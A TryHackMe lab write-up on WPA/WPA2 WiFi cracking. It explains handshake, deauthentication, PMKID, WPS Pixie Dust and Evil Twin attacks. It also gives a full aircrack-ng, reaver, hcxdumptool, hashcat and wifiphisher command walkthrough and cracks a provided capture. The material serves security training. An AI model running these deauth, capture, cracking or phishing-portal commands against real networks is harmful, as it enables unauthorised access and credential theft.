



# WiFi Hacking 101 — TryHackMe

    



## Room Info

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Room | [WiFi Hacking 101](https://tryhackme.com/room/wifihacking101) |
| Category | Hardware / Wireless Security |
| Difficulty | Easy |
| Time | ~45 min |
| Format | Theory + hands-on cracking of a provided `.cap` file against a real WPA2 handshake |

## Objective

This room isn't about breaking into a live network step-by-step on a target box — it's about understanding the full WPA/WPA2 handshake capture-and-crack methodology, then applying it against a pre-captured 4-way handshake file to recover a password offline. The core insight worth holding onto: **you never need to be connected to a Wi-Fi network to attack it.** Radio traffic is broadcast publicly through the air to anyone with a card in monitor mode — the entire attack is passive listening followed by offline computation.

## Core Methodology

The whole workflow reduces to four stages:

1. **Monitor Mode** — put your wireless card into a mode where it listens to *all* raw radio traffic passing through the air, not just traffic addressed to it (which is all a card does in normal "Managed" mode).
2. **Targeted Capture** — filter that raw traffic down to one specific router (by channel + BSSID) and save it to a `.cap` file.
3. **Trigger a Handshake** — capture the WPA 4-way handshake that occurs the moment a client device connects (or reconnects) to the router.
4. **Offline Cracking** — once the handshake is safely saved to disk, the live network is no longer involved at all. Password guessing happens entirely on your own CPU/GPU against the captured file.

That last point matters: steps 1–3 are the only parts that touch the actual network. Once you have the `.cap` file, you could theoretically walk away from the target's WiFi range entirely and keep cracking.

## Concept Glossary

**Monitor Mode vs. Managed Mode**
A WiFi card in normal ("Managed") mode only processes traffic addressed to its own MAC address — everything else gets silently discarded at the hardware/driver level. **Monitor mode** disables that filtering, letting the card capture every frame it physically receives, regardless of destination. This is what makes passive WiFi auditing possible in the first place — you're not "hacking into" anything yet, just listening to a public broadcast medium.

**SSID / BSSID**
The **SSID** is the human-readable network name you see in a WiFi picker ("HomeNetwork_5G"). The **BSSID** is the actual hardware MAC address of the specific access point broadcasting that SSID — this is the identifier you target directly during a capture, since multiple physical APs can technically share the same SSID (e.g. mesh networks).

**The WPA 4-Way Handshake**
When a client device connects to a WPA/WPA2 network, it and the access point exchange four messages containing cryptographic nonces (random values) and a **MIC (Message Integrity Code)** — together, these prove both sides know the correct pre-shared key *without ever transmitting the password itself* over the air. This handshake is the entire target of the capture phase: it's the only piece of data that lets an attacker verify password guesses offline. No handshake, no way to crack the password from a passive capture.

**Deauthentication Attack**
WiFi originally had no authentication requirement on *management* frames (as opposed to data frames) — meaning anyone in radio range can forge a "deauthentication" frame that looks like it came from the access point, kicking a connected client off. The client, unaware anything malicious happened, automatically reconnects — generating a fresh 4-way handshake in the process. This is how an attacker *forces* a handshake to happen instead of waiting for one naturally.

**Why Cracking is Offline and Legal-Adjacent to Discuss**
Because the 4-way handshake contains everything needed to *verify* a password guess (via the MIC), cracking never needs to touch the live network again after capture — you're just repeatedly hashing candidate passwords locally and comparing the result. This is also why WPA/WPA2 security fundamentally comes down to **password strength**: the protocol's cryptography itself isn't what's being broken, the human-chosen password is.

**Why VMs Can't Use a Laptop's Built-In WiFi Card**
Virtualization software typically passes a laptop's internal wireless card through to the host OS as a translated wired connection (`eth0`-style), stripping out the low-level radio control needed for monitor mode and packet injection. A **USB WiFi adapter with a chipset that supports monitor mode and injection** (commonly Atheros or Ralink-based) is the standard workaround — it can be passed through to the VM as a genuine USB device rather than a virtualized network interface.

**CPU vs. GPU Cracking**
Password cracking is fundamentally "hash the candidate, compare to target" repeated millions of times. CPUs are built for complex sequential logic and only have a handful of cores; GPUs have thousands of simpler cores built exactly for the kind of massively parallel, repetitive math that hashing is. This is why serious cracking work (via Hashcat) moves off `aircrack-ng`'s CPU-only engine and onto GPU-accelerated formats once a wordlist attack needs real speed.

**WPS Pixie Dust Attack**
WPS (WiFi Protected Setup) was meant to make router setup easier via an 8-digit PIN. Many older router implementations generated that PIN using weak/predictable random number generation. The Pixie Dust attack exploits this weak entropy to mathematically calculate the correct PIN (and from it, the actual WPA key) in seconds — entirely offline, no wordlist needed, no live brute-forcing against the router required. `pixiewps` automates this.

**Evil Twin / Captive Portal Attack**
Rather than attacking the cryptography at all, this attack clones the target network's SSID with a rogue access point, then deauths clients off the real network. Confused users often connect to the identical-looking fake network, which serves them a convincing fake "router firmware update" or login page — the password gets harvested the moment the victim types it in voluntarily. Tools like `wifiphisher` automate this combination of deauth + captive portal.

**PMKID Attack**
Some access points include a PMKID (Pairwise Master Key Identifier) in the very first message of the handshake process — meaning it can sometimes be captured **without needing an actual connected client at all**, unlike the traditional 4-way handshake capture which requires either an existing connection or a forced deauth-reconnect. `hcxdumptool` targets this directly, making it useful against APs where no clients are currently visible to deauth.

## Command Reference — Full Walkthrough

**Step 1 — Identify Your Wireless Interface**
```bash
iwconfig
```
Lists active network adapters so you can find your WiFi card's interface name (commonly `wlan0`).

**Step 2 — Kill Interfering Background Processes**
```bash
sudo airmon-ng check kill
```
Terminates processes like `NetworkManager` or `wpa_supplicant` that would otherwise fight with your card for control or silently reset it out of monitor mode mid-capture.

**Step 3 — Enable Monitor Mode**
```bash
sudo airmon-ng start wlan0
```
Switches the card from Managed to Monitor mode and typically renames the interface to `wlan0mon`.

**Step 4 — Scan for Nearby Networks**
```bash
sudo airodump-ng wlan0mon
```
Shows every visible network in range: BSSID, channel, signal strength, encryption type, and connected client MAC addresses. `Ctrl+C` to stop once you've identified your target.

**Step 5 — Targeted, Filtered Capture**
```bash
sudo airodump-ng -c <CHANNEL> --bssid <TARGET_MAC> -w capture_name wlan0mon
```
Locks onto one specific channel and BSSID, writing all captured traffic — including any handshake — to `capture_name-01.cap`.

**Step 6 — Force a Handshake (Optional but Common)**
```bash
sudo aireplay-ng --deauth 5 -a <TARGET_MAC> -c <CLIENT_MAC> wlan0mon
```
Sends 5 forged deauth frames at a connected client, kicking it off and forcing an automatic reconnect — which regenerates the 4-way handshake for capture.

**Step 7 — Crack the Password Offline**
```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <TARGET_MAC> capture_name-01.cap
```
Tests every entry in the wordlist against the captured handshake's MIC until (if you're lucky) one matches.

**Extra — Convert for GPU Cracking with Hashcat**
```bash
aircrack-ng capture_name-01.cap -J output_file
```
Converts the `.cap` handshake into a crackable format for Hashcat, unlocking GPU-accelerated cracking speed well beyond what `aircrack-ng`'s CPU-only engine can do.

## Aircrack-ng Suite — Quick Command & Flag Cheat Sheet

A condensed lookup table for the core suite, plus additional commands worth knowing beyond the basic capture-and-crack flow:

**Core Workflow**
- Interface Monitor Command: `airmon-ng start wlan0`
- New Interface Name (post-monitor-mode): `wlan0mon`
- Kill Background Processes: `airmon-ng check kill`
- Stop Monitor Mode / Restore Normal Interface: `airmon-ng stop wlan0mon`
- Scan All Nearby Networks: `airodump-ng wlan0mon`
- Capture Tool: `airodump-ng`
- BSSID Flag: `-b` (or `--bssid`)
- Channel Flag: `-c` (or `--channel`)
- Write to File Flag: `-w` (or `--write`)
- Cracking Tool: `aircrack-ng`
- Wordlist Flag: `-w` (or `--wordlist`) — note: same flag letter as airodump's write flag, but different tool/meaning, easy to mix up
- HCCAPX Conversion Flag: `-J`
- Target Password (example from a wordlist run): `greenday`

**Deauth & Handshake Forcing**
- Deauth Attack Tool: `aireplay-ng`
- Deauth Packet Count Flag: `--deauth <count>` (e.g. `--deauth 5`)
- Access Point MAC Flag: `-a`
- Client MAC Flag: `-c`
- Broadcast Deauth (all clients, no `-c` specified): `aireplay-ng --deauth 5 -a <TARGET_MAC> wlan0mon`

**Extra Useful Commands Beyond the Basics**

- Check for Wireless Card Driver Conflicts: `airmon-ng`
  *(run alone with no arguments — lists detected wireless interfaces and their chipsets/drivers)*

- Filter airodump Output to WPA Networks Only: `airodump-ng --encrypt WPA wlan0mon`
  *Useful for skipping open/WEP networks when scanning a busy area.*

- Verify a Captured Handshake Exists in a .cap File: `aircrack-ng capture_name-01.cap`
  *(run without `-w`, just checks and reports whether a valid handshake is present before you commit to a long cracking run)*

- WPS-Enabled Network Scan: `wash -i wlan0mon`
  *Identifies nearby WPS-enabled routers — the prerequisite recon step before attempting a Pixie Dust attack.*

- Pixie Dust WPS Attack: `pixiewps --pke <PKE> --pkr <PKR> --e-hash1 <HASH1> --e-hash2 <HASH2> --authkey <AUTHKEY> --e-nonce <NONCE>`
  *(values typically obtained via `reaver` in `-K 1` pixie-dust mode rather than gathered manually)*

- Reaver WPS PIN Attack (traditional online brute force, slower/noisier than Pixie Dust): `reaver -i wlan0mon -b <TARGET_MAC> -vv`

- PMKID Capture (no client required): `hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1`

- Convert PMKID Capture for Hashcat: `hcxpcapngtool -o hash.hc22000 capture.pcapng`

- Hashcat WPA2 Cracking (mode 22000 covers both handshake and PMKID formats): `hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt`

- Evil Twin / Captive Portal Automation: `wifiphisher`
  *(interactive tool — clones the target SSID, deauths real clients, serves a phishing portal automatically)*

- Change Card MAC Address (useful for OPSEC during testing, or bypassing MAC filtering): `macchanger -r wlan0`

## Practical Exercise — Cracking a Real Provided Handshake

The room provides a pre-captured set of files rather than requiring a live capture, letting the exercise focus purely on stage 4 (offline cracking) of the methodology above.

### 1. Extracting the Provided Capture

```bash
tar -xvf Captures_1578171018678.tar.gz
```



```
NinjaJc01-01.cap
NinjaJc01-01.csv
NinjaJc01-01.kismet.csv
NinjaJc01-01.kismet.netxml
NinjaJc01-01.log.csv
```

The `.cap` file is the actual packet capture; the `.csv`/`.kismet` files are metadata airodump-ng generates alongside it (network list, GPS-style logging fields, etc.) — not needed for cracking itself.

### 2. Launching the Crack

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD NinjaJc01-01.cap
```

```
Reading packets, please wait...
Opening NinjaJc01-01.cap
Read 589 packets.

1 potential targets
```

`aircrack-ng` confirms it found exactly one valid handshake in the capture matching the given BSSID before committing to the full wordlist run — the "1 potential targets" line is worth watching for; if it reports 0, the capture doesn't actually contain a usable handshake and the whole run would be wasted.

### 3. Cracking in Progress


```
Aircrack-ng 1.7
[00:00:37] 98713/14344392 keys tested (2702.92 k/s)
Time left: 1 hour, 27 minutes, 50 seconds                    0.69%
Current passphrase: 06011987
```

`Current passphrase` here is just the *candidate currently being tested* against the handshake's MIC — not a match. At ~2,700 keys/second on CPU against a 14.3-million-entry wordlist, the full run is estimated at over 90 minutes if the correct password sits late in the list — a good illustration of why GPU-accelerated cracking via Hashcat becomes worth the setup effort on larger wordlists or slower hardware.

### 4. Key Found



```
Aircrack-ng 1.7
[00:00:48] 123104/14344392 keys tested (2574.71 k/s)
Time left: 1 hour, 32 minutes, 3 seconds                     0.86%

                          KEY FOUND! [ greeneg▓▓▓▓▓▓▓▓ ]

Master Key     : 71 5F 17 D1 D7 9E 70 4D 6E 2E 9C AD 46 F5 45 F5
                  AF 5E 43 48 16 F9 5B AA 14 8F 39 AA FC 5E EB 3B

Transient Key  : B9 F6 A8 68 1A 85 C3 1C 16 30 0E 57 1A 6B B2 08
                  B4 5B 3F A4 86 13 3B 00 00 00 00 00 00 00 00 00
                  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

EAPOL HMAC     : 9A 6A 56 EE E4 4E 42 A3 14 71 26 9F E0 E2 93 04
```

Only 123,104 keys in (0.86% through the full wordlist) — the password was near the very front of `rockyou.txt`, which is exactly why the earlier "1 hour 27 min" time estimate never actually panned out; that estimate assumes worst-case position, not average case.

**Result:** the password recovered was a `rockyou.txt` entry starting with `greeneg...` — confirming the earlier theory-section point directly: this specific target was cracked purely because it used a common, dictionary-guessable password, not because of any weakness in WPA2's cryptography itself.


1. **The entire attack is passive until the deauth step.** Monitoring and capturing traffic requires no interaction with the target network whatsoever — the only "loud" action in this whole methodology is the optional forced deauth, which is also the only part that's detectable by the network owner in real time (e.g. via wireless IDS).
2. **A `.cap` file is just a recorded transcript — the real target is the MIC inside the handshake.** Cracking isn't "guessing the WiFi password directly against the router" at all; it's locally computing whether a candidate password produces the same MIC value captured in the handshake. This is exactly why cracking can happen completely offline.
3. **Wordlists only work against human-chosen, guessable passwords.** Modern routers shipping random alphanumeric default passwords (printed on a sticker) are effectively immune to a `rockyou.txt`-style attack — the real-world takeaway being that default random passwords, however inconvenient, are a genuinely strong defense against exactly this attack. The practical exercise above is a direct demonstration: the `greeneg...` password cracked almost instantly (0.86% through the wordlist) purely because it was a common dictionary word, not because WPA2's cryptography was weak.
4. **Hardware matters more than usual in wireless attacks.** Unlike most web/network CTF work where a VM's virtual NIC is completely sufficient, WiFi auditing needs a card that can physically enter monitor mode and inject packets — a constraint most built-in laptop cards (and virtualized ones) don't meet.
5. **GPU cracking isn't just "faster" — it's a different order of magnitude.** The CPU vs. GPU distinction (sequential complex logic vs. massively parallel simple math) is why any serious offline password-cracking workflow eventually funnels into Hashcat rather than staying in `aircrack-ng`'s built-in CPU cracker.
6. **Not every attack targets the handshake at all.** WPS Pixie Dust attacks weak RNG implementation rather than the password; PMKID attacks a protocol quirk that skips needing a client entirely; Evil Twin attacks the *user*, not the cryptography. A real wireless assessment should consider all of these angles, not just brute-forcing a captured handshake.

## Skills Demonstrated

`WiFi Monitor Mode & Packet Capture` `WPA/WPA2 4-Way Handshake Theory` `Deauthentication Attacks` `Offline Password Cracking (aircrack-ng, Hashcat)` `WPS Pixie Dust Attack Theory` `PMKID Attack Theory` `Evil Twin / Captive Portal Attack Theory` `Wireless Hardware Constraints (VM vs. USB Adapter)`

## References

- [TryHackMe — WiFi Hacking 101](https://tryhackme.com/room/wifihacking101)
- [Aircrack-ng Suite — official documentation](https://www.aircrack-ng.org/documentation.html)
- [Hashcat — official documentation](https://hashcat.net/hashcat/)
- [hcxtools / hcxdumptool — PMKID attack tooling](https://github.com/ZerBea/hcxtools)
- [wifiphisher — Evil Twin automation](https://github.com/wifiphisher/wifiphisher)

- Author: Aymane Boualam
